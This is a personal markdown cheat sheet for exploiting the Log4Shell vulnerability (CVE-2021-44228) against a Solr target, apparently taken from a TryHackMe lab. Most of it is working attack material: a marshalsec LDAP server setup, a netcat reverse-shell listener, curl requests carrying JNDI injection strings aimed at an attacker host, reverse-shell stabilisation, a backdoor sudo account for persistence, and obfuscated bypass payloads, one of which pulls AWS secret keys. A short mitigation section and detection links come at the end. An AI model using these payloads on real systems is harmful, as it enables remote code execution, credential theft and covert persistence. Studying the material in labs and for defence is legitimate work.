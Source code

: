 # List of web exploits that leverage java

---

# CVE-2021-44228 (Log4J exploit Notes)

# Proof of concept

## base log4j syntax examples

```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

## installing packages you need for the exploit

### setup packages for payload.java and supporting marshalsec files

* (install required packages)

`sudo apt install -y maven default-jre`

* will differ for your linux distro

### grab marshalsec code to help exploit log4j and build the utility
`git clone https://github.com/mbechler/marshalsec.git && cd marshalsec`
`mvn clean package -DskipTests`

#### start the ldap reference server `marshealsec utility` that log4j will interact with

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://rhost:rport/#sploit"`
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.10.1:8000/#sploit"`

* rhost = attacker ip
* lport = port of the web server, python3 webserver default to port 8000

### change java type on compile without having to change the default

`javac exploit.java -source 8 -target 8`


## setup web server in directory with the payload java.class file
`python -m SimpleHTTPServer`b
`python3 -m http.server`
`php -S <lhost>:<lport>`

## setup listener to catch the reverse shell

`nc -lvnp <lport>`
`nc -lvnp 8900`

## launch the attack with curl

`curl 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'`
`wget -qO- 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'`

	* wget will not work, probably missing something

---

# make reverse linux shell stable
1. make stable tty
	`python3 -c 'import pty;pty.spawn("/bin/bash")'
	`script -q /dev/null -c /bin/bash`

2. make it able to clear the screen
	`export TERM=xterm`
0r
	`env | grep TERM`
	`export TERM=<whatever out machine TERM var is>`
	`export TERM=screen-256color`

3. allow ctrl+c without exiting the reverse shell
	`ctrl+z` = background rev shell
	`stty raw -echo;fg` -> enter -> enter

4. match the lines and columns to prevent broken line wraps
	* figure out lhost `rows` and `columns`
		`stty -a`

	* set the rev shell tty to match our machine
		`stty rows <row-number> cols <columns-number>`
		`stty rows 7 cols 94`

---

# log4j detection resources (ref from the thm log4j room
https://tryhackme.com/room/solar

https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
https://github.com/darkarnium/CVE-2021-44228

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`
---

# creating a really user for poor persistance or change the log4j solar user's pw

```
passwd solr

0r

useradd <new_username>
passwd <username>
sudo usermod -aG sudo <username>
	* add them to the sudo group

sudo usermod -aG wheel <username>
	* wheel is sudo group for other certain linux distros

# when creating user don't forget to change the default shell from sh to something else
sudo useradd -ms /bin/bash <username>
	m = "home-dir"
	s = "default shell"

```

---

# log4j bypass 

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

* NOTE;
* to make use of the `rmi://` protocol or `Java remote method invocation`

* potentially able to extract data from AWS

	`${env:AWS_SECRET_ACCESS_KEY}`

### Additional techniques from reddit

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`

---

# mitigation the log4j vuln
1. locate solr.in.sh file

	`locate solr.in.sh`
	`find / -type f -name solr.in.sh`

2. create backup file before modifying any important file

```
cp /etc/default/
sudo cp solr.in.sh solr.in.sh.bak
``` 

3. add the patch and restart the service to push changes
	* it's ok if you put this at the complete end of the `solr.in.sh` file

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"

sudo /etc/init.d/solr restart
```

* install patch is it's ready for your device/distro
